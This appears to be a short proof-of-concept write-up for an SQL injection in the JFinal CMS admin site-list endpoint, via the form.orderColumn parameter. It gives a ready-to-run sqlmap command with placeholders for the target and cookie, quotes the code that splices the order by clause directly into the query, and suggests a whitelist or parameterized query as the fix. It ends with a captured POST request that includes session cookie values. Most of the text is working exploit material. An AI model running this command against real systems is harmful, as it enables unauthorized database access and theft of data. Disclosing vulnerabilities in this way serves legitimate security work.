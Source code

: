 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/admin/site/list  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=&attr.name=123"  --cookie "  your cookie  " --current-db
```



Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist







# packet

```
POST /jfinal_cms/admin/site/list HTTP/1.1
Host: 172.30.48.1
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.30.48.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.30.48.1/jfinal_cms/admin/site/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=BF13B42EDFC3DEC180959D6DF143BD18; session_user="wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c="; Hm_lvt_1040d081eea13b44d84a4af639640d51=1659122360,1659131581; Hm_lpvt_1040d081eea13b44d84a4af639640d51=1659131581
Connection: close

form.orderColumn=*&form.orderAsc=&attr.name=123
```

